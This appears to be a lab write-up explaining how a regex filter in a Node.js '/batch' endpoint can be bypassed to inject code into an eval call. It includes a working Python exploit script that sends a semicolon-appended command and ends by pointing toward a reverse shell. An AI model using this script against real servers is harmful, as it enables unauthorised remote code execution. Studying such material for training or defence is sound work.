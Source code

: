 ## Understanding The Regex
Before we start to exploit the vulnerability of the eval function, we need to first understand what kind of sanitization/formatting is being done to the JSON request through the regular expression.
The regex we're dealing with looks like so:

```javascript
var requestRegex = /(?:\/)(?:\$(\d)+\.)?([^\/\$]*)/g;
```

To understand this regex, we can visit [regex101](https://regex101.com/), which provides easy explanation for any regex.
In our test string field we'll simply insert a value from the example batch.js file from the POST request path, add a terminator, and add an example command

![](../../Screenshots/t3-ss10.png)

Here:
1. The forward slashes are used as string separators
2. The strings between the slashes are then grouped using the dot character as a separator, but only if the $d pattern is matched
3. The payload ";hacked" is injected into the original statement, and manages to bypass the regex test. This is because the semi-colon(;) character terminates the statement in JavaScript.

This will let us append code to the statement, and let us execute code on the remote server.
To trigger the bug, we'll use the following script:

```python
import requests,sys

if len(sys.argv) != 3:
    print "(+) usage: %s <target> <cmd_injection>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % cmd

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

We execute the script with our arguments, and see nothing special:

![](../../Screenshots/t3-ss11.png)

However, checking the log file:

![](../../Screenshots/t3-ss12.png)

We see that we are able to execute arbitrary java code on the server.
All that's left to do is use this bug to get a reverse shell.